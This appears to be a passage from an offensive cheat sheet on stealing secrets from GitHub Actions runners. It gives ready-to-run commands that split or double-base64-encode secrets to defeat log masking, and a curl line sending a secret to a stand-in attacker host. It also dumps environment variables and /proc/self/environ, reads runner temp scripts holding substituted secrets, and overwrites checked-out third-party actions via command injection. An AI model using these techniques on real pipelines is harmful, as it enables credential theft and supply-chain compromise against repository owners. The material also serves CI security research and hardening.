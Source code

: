 ## Accessing secrets through environment variables

If secrets are passed to an environment variable, you can directly access them in the following ways:

```bash
# you can intentionally sent secrets to the logs with echo command
$ echo ${SOME_SECRET:0:4}; echo ${SOME_SECRET:4:200};
# or using base64 (you need encode twice to avoid auto-masking)
$ echo "${SOME_SECRET}" | base64 -w0 | base64 -w0
# you can exfiltrate secrets with curl command
$ curl "https://attacker-website.com/?secret=${SOME_SECRET}"
# use printenv to dump environament variables (you need encode twice to avoid auto-masking)
$ printenv | base64 -w0 | base64 -w0 
# same as printenv but via proc fs (you need encode twice to avoid auto-masking)
$ cat /proc/self/environ | base64 -w0 | base64 -w0
```

## Accessing secrets from the run: step

If a secret is used directly in an expression `${{ }}` in the `run:` block, like:
    
```yml
- run: |
    publisher ${{ secrets.PUBLISH_KEY }}
  shell: bash
```

The generated shell script will be stored on the disk in the `/home/runner/work/_temp/` folder. This script contains the secret in plain text because GitHub Runner evaluates the expressions inside of `${{ }}` and substitutes them with the resulting values before running the script in the `run:` block. Therefore, the secret can be accessed with the following command:

```bash
$ cat /home/runner/work/_temp/$(xxd -r -p <<< 2a) | base64 -w0 | base64 -w0
```

Note that this behavior is independent of [shell settings](https://docs.github.com/en/actions/using-workflows/workflow-syntax-for-github-actions#jobsjob_idstepsshell).

## Accessing secrets through rewriting third-party actions

If you have an arbitrary command execution in front of a third-party action that handles secrets:

```yaml
- run: |
    <COMMAND_INJECTION_HERE>
- uses: fakeaction/publish@v3
  with:
    key: ${{ secrets.PUBLISH_KEY }}
```

You can steal secrets by rewriting third-party action code. GitHub Runner checks out all third-party action repositories during the `Set up` step and saves them to the `/home/runner/work/_actions/` folder. For example, `fakeaction/publish@v3` will be checked out to the `/home/runner/work/_actions/fakeaction/publish/v3/` folder. Therefore, you can rewrite a third-party action with a malicious one using command injection to access secrets.
